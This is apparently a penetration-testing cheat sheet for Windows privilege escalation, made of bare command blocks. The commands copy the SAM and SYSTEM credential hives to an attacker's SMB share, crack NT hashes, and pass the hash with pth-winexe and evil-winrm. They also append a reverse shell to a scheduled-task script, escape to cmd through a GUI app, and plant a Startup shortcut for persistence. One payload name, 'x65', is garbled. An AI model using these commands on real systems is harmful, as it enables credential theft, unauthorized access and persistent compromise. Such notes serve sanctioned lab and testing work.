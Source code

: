 ```powershell
copy C:\Windows\Repair\SAM \\<IP_ADDR>\kali\
copy C:\Windows\Repair\SYSTEM \\<IP_ADDR>\kali\
python3 /usr/share/creddump7/pwdump.py SYSTEM SAM
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
john hash --format=NT -w=/usr/share/wordlists/rockyou.txt
msfconsole -> use exploit/windows/smb/psexec -> set payload windows/x65/shell_reverse_tcp
```

---

# PASSING THE HASH

```powershell
pth-winexe -U '<user>%hash' //<IP_ADDR> cmd.exe
evil-winrm -i <IP_ADDR> -u <user> -H HASH
```

---

# SCHEDULED TASKS

```powershell
type C:\DevTools\CleanUp.ps1
C:\Temp\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
echo C:\Temp\reverse.exe >> C:\DevTools\CleanUp.ps1
```

---

# INSECURE GUI APPS

```powershell
rdesktop -u <user> -p <password> <IP_ADDR>
tasklist /V | findstr mspaint.exe
File -> Open -> file://c:/windows/system32/cmd.exe
```

---

# STARTUP APPS

```powershell
.\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
cscript C:\Temp\CreateShortcut.vbs
```

```powershell
# CreateShortcut.vbs
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\Temp\reverse.exe"
oLink.Save
```
